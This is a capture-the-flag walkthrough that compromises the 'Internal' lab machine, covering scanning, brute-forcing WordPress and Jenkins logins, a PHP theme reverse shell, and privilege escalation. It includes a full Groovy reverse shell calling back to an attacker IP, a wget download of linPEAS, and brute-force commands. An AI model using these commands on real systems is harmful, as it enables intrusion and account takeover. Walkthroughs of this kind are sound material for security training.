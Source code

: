 # Internal

> Penetration Testing Challenge

<br>

### Process:

1. port scan:
	- scan all ports: `sudo nmap -T4 -p- 10.10.216.36`
	- scan found ports: `sudo nmap -T4 -A -p 22,80 10.10.216.36`
	- edit attacker `/etc/hosts` file to add: `10.10.216.36 internal.thm`
2. enumerate port 22:
	- OpenSSH 7.6p1 Ubuntu found
3. enumerate port 80:
	- visit website at http://10.10.216.36 = default Apache2 web page
	- run gobuster: `gobuster dir -u http://10.10.216.36 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`
	- found wordpress site running
	- run wordpress scanner and enumerate everything: `wpscan --url http://10.10.216.36/blog -e`
		- found "admin" user
	- try to brute force admin users password: `wpscan --url http://10.10.216.36/blog -U admin -P /usr/share/wordlists/rockyou.txt`
		- found "my2boys" password for admin
4. exploit WordPress panel:
	- login to WordPress admin panel with "admin:my2boys"
	- go to “Appearance > Theme Editor > 404.php” and replace the PHP code with a [PHP reverse shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)
	- setup netcat listener: `nc -lvnp 1234`
	- update the file and call the template: `http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php`
5. privilege esclation:
	- download linPEAS onto system: `cd /var/tmp && wget http://10.11.31.198:8080/linpeas.sh`
	- run linPEAS: `bash linpeas.sh`
	- found phpmyadmin login = "wordpress:wordpress123"
	- look around filesystem:
		- found interesting file in "/opt" directory call "wp-save.txt"
		- contains login credentials "aubreanna:bubb13guM!@#123"
	- login as aubreanna:
		- find user flag: `cat /home/aubreanna/user.txt`
		- user flag = **THM{int3rna1_fl4g_1}**
6. esclate to root:
	-  found jenkins service running on internal host at 172.17.0.2:8080
	- confirm host is internal: `netstat -nat` -- running on 127.0.0.1:8080
	-  setup SSH tunnel to access this internal host: `ssh -L 127.0.0.1:9999:127.0.0.1:8080 aubreanna@10.10.196.99` -> [password]
	-  navigate to Jenkins in browser: `http://127.0.0.1:8080`
		- try default jenkins login passwords -- failed 
	- capture request in Burp 
	- Try to brute force login:
		- `hydra 127.0.0.1 -s 9999 http-post-form '/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username' -l admin -P /usr/share/wordlists/rockyou.txt -f`
		- found credentials: "admin:spongebob"
	- login to Jenkins services and upload a shell:
		- navigate to `127.0.0.1:9999/computer/(master)/script`
		- create a Groovy script bash reverse shell in textbox:
		```groovy
		String host="10.11.31.198";
		int port=4444;String cmd="bash";
		Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
		```
		- setup netcat listener and run 
	-  search for plaintext credentials (found previously) with: `grep -r "credentials" / 2> /dev/nul`
		-  found "/opt/note.txt"
		- contains credentails "root:tr0ub13guM!@#123"
	- login to root account and get root flag:
		- `su root` -> [password]
		- `cat /root/root.txt`
		- root flag = **THM{d0ck3r_d3str0y3r}**



